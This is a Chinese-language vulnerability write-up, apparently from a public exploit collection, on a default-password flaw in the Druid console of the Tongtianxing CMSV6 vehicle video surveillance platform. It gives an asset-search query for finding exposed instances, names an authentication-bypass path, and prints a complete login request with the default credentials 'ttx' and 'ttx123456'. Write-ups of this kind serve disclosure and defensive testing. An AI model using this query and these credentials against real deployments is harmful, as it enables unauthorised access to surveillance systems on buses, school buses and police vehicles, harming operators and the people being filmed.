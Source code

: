 # 通天星CMSV6车载视频监控平台 druid存在默认口令漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台 druid存在默认口令漏洞。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/99EBhY1oQ-mjYZgI/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-754278.png)

# 四、漏洞复现
`;downloadLogger.action`绕过鉴权

```plain
POST /druid/submitLogin HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Connection: close
Cookie: JSESSIONID=4F7D8A071EAC19E6196D1775D84D2F8D

loginUsername=ttx&loginPassword=ttx123456.
```

![1711464615359-a39000d2-d25e-428f-8c8d-70b3f0cea36a.png](./img/99EBhY1oQ-mjYZgI/1711464615359-a39000d2-d25e-428f-8c8d-70b3f0cea36a-366787.png)

![1711464632801-68cfb113-488a-48b1-8233-3f588fd8d554.png](./img/99EBhY1oQ-mjYZgI/1711464632801-68cfb113-488a-48b1-8233-3f588fd8d554-615129.png)



> 更新: 2024-12-28 13:05:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/agnzkrfsf9am4t8p>